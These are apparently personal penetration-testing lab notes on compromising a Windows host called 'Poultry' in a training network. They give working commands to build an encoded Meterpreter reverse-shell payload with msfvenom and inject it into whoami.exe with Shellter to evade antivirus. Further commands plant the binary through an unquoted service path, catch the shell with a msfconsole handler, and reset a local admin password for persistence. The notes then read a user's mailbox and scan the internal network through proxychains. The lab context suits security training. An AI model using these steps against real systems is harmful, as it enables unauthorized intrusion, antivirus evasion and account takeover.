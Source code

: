 ## #unquotedServicepath exploitation
Since we know that AV is running, we will use #shellter to inject a meterpreter payload into a Windows binary that will hopefully bypass McAfee
- Ensure that *shellter* is installed with #Wine on Kali.

1. Make a directory named **Poultry** to work out of on your kali machine.  copy a legitimate adn well-known windows binary to it. **cp /usr/share/windows-resources/binaries/whoami.exe ./Poultry** 
2. Generate the meterpreter payload to use with shellter.  Use port 80 to hopefully avoid any firewall restrictions. Use **-i** to specify an arbitrary number of encodign operations.
	- **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=80 -e x86/shikata_ga_nai -i 7  -f raw > met.bin** 
	- ***Note*** : you can also use a non-meterpreter payload if you don't want to use metasploit for the exam.  Send the reverse shell to a #nc listener.  
3. Now we launch #shellter to dynamically #inject it into the **whoami.exe** binary.
	- Type **shellter** into Kali, then select "A" for auto mode.  Specify the target PE file : **/home/kali/poultry/whoami.exe** 
	- In this case, we don't need whoami to function properly after payload execution, so we select N for Stealth mode.
	- Type C to use a custom payload, then type in your payload : **/home/kali/poultry/met.bin** and select N for reflective DLL loader.
4. Transfer the whoami.exe binary to Poultry and place it in the correct location with a #pythonServer : **sudo python3 -m http.server 80**.  Navigate to the the python server on the target machine and save whoami.exe
5. Change the binary name to **Current.exe** and copy/paste it to **`C:\Puppet`** 
6. Start **msfconsole** to generate the listener to catch the #reverseShell  and #migrate it into another process  and ensure that the shell stays connected even if Windows thinks the service has failed to start.
	- **`sudo msfconsole -q -x "Use exploit/multi/handler;\set PAYLOAD windows/meterpreter/reverse_tcp;\<span custom-style="BoldCodeRed">set AutoRunScript post/windows/manage/migrate;\set LHOST 10.11.0.4;\set LPORT 80;\run"</span>`** 
7. Attempt to restart Poultry and wait for the reverse shell.  We can establish #persistence by running **net user** to reset the password.
	- Once we get our shell and verify #SYSTEM privs with whoami, run **net user poultryadmin OffSecHax1!** to change the password, then login via RDP (we don't ned the **/d** from before since we're logging in as the local admin user and not a domain user)
	- **proxychains xfreerdp /u:poultryadmin /v:10.5.5.20 +clipboard** 
	- Note that we now have admin access to Poultry !

## #post-exploitation enumeration
1. List the #domainTokens of any logged in users by username.  In meterpreter, we type **use incognito** and then **list_tokens -u** 
2. Continue looking and not that Thunderbird is installed (but not set up for the admin user).
	- Check the mailbox y navigating to **`C:\Users\alex\AppData\roaming\Thunderbird\Profiles\jbv4ndsh.default-release\Mail\mail.sandbox.local\Inbox`** 

# Internal network enumeration
*Note - it's important to periodically stop and mindmap whta we already know about the network*
![[Pasted image 20221114104655.png]] 
 1. To scan the internal network, we can write a quick one-liner with a *for loop* to ping every host on the network.  
	 - **/L** flag to accept a replaceable parameter, **%i** as the replaceable parameter (*start, step, end*), send one ping and a short timeout(**-w 200**).  Send teh output to the null interface (**> nul**) and print if the host is up.
	- **for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && echo 10.5.5.%i is up** 
	- This gives us 5 hosts.  10.5.5.1 is the gateway, 10.5.5.11 (Zora) and 10.5.5.20 (Poultry) we've already compromised.  10.5.5.25 and 10.5.5.30 are of interest.
2. From the Kali machine, run a #proxyChains #nmap scan on the top 1000 ports
	- **proxychains nmap --top-ports=1000 -sT -Pn 10.5.5.25,30 --open** ![[Pasted image 20221114105609.png]]
